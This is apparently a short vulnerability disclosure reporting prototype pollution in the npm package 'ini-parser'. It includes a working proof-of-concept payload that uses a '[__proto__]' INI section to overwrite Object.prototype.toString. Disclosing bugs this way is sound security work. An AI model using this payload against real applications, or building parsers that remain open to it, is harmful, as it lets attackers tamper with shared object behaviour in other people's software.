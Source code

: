# Overview

`ini-parser` is a package to parse `.ini` files, this package are vulnerable to Prototype Pollution.

The library could be tricked into adding or modifying properties of `Object.prototype` using a `proto` payload.

# Proof of Concept

```
var a = require("ini-parser");
a.parse('[__proto__]\ntoString=huntr.dev');
console.log({}.toString);
```
